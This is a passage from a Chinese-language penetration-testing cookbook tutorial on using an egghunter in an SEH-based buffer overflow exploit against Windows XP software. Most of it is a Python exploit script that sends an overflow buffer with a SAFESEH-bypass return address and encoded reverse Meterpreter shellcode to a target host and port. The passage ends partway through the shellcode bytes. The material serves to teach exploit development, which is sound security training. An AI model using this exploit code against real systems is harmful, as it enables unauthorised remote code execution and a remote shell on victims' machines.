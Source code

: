 蛋猎手包含一组编程指令；它与 shellcode 并没有太大的不同。有多种蛋猎手可用。您可以通过 skape 的这篇论文了解更多关于它们以及它们如何工作的信息：[`www.hick.org/code/skape/papers/egghunt-shellcode.pdf`](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)。

# 准备工作

我们将尝试使用一个蛋猎手为我们在上一个教程中使用的相同软件制作一个漏洞利用。利用的逻辑将类似于以下图表所示的内容：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/3eba1c6c-372e-4d0e-850e-96b87d14b964.png)

我们的目标是覆盖**nSEH**，然后**SEH**，以便它跳转到蛋猎手 shellcode，当执行时，将在内存中找到并执行我们的 shellcode。

# 如何做...

以下是演示使用蛋猎手的步骤：

1.  我们在 Windows XP 上启动软件并将其附加到调试器：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/a58a884f-8baa-43f0-b726-980a8d468454.png)

1.  我们已经知道了崩溃字节和绕过 SAFESEH 的地址。

1.  现在我们需要添加我们的蛋猎手，然后使用它来跳转到我们的 shellcode。

1.  正如我们所知，蛋猎手是一种 shellcode，使用 shellcode 的基本规则是确保它没有任何坏字符。

1.  让我们看看我们之前制作的漏洞利用：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        buffer = "USV "
        buffer += "\x41" * 962 #offset
        # 6 Bytes SHORT jump to shellcode
        buffer += "\xeb\x06\x90\x90"
        # POP+POP+RET 0x0f9a196a
        buffer += "\x6a\x19\x9a\x0f"
        buffer += "\x90" * 16
        #Shellcode Reverse meterpreter.
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72" 
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1" 
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
```